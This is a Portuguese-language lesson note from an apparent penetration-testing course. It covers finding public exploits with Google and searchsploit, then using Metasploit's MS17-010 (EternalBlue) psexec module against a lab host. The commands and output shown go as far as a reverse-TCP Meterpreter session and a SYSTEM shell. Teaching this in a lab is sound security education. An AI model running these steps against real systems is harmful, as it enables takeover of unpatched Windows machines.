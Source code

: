 # Aula 8

Depois de enumerar o sistema usando nmap, o primeiro passo é procurar exploits públicos da versão do serviço em questão

Obviamente, a maior quantidade de exploits públicos que você pode encontrar está no mecanismo de busca do google, pesquisar o sistema e serviço seguido da palavra exploit vai te fornecer várias alternativas e.g:`windows 7 smb exploit`

Searchsploit é uma ferramenta de busca na CLI especifica para busca de exploits

`sudo apt install exploitdb -y`

`searchsploit smb 1.0`

## Metasploit
Ferramenta paa busca e execução de exploits, é usado para reconhecimento do host, teste de vulnerabilidade sem invadir o alvo, conexão de shell para usar comandos no alvo e execução de exploits

`msfconsole`
dentro do msf:
```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```
Para usar o exploit:
`use <id> 4 ou exploit/windows/smb/ms17_010_psexec`
Para alterar algum configuração usamo `set <config>` config pode ser o host remoto (RHOST) host local (LHOST), payload

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

para verificar se o alvo é vulnerável

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

[Próxima aula](9_priv-esc.md)